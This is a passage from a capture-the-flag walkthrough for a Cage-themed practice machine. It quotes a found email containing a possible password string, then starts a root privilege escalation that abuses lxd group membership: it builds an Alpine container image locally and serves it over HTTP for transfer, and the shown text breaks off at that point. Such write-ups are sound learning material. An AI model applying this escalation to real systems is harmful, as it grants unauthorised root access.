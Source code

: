 - Also, `/home/cage/email_backup/email_3` contains the following note that seemed to contain a password but proved useless in the end. (or there's another escalation path I didn't find :) )

```
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```

#### PRIVILEGE ESCALATION ---> ROOT

- `cage` belongs to group `lxd`;

- This would allow us to compile an lxd container locally, as root, and then transfer the image to the server and use that container to mount the root of the actual filesystem, enabling us to read files from it.

- Here are the steps

**LOCAL HOST

```
git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

sudo ./build-alpine -a i686 
```

- Transfer the file to the target server. 

LOCAL HOST
```
python3 -m http.server
```
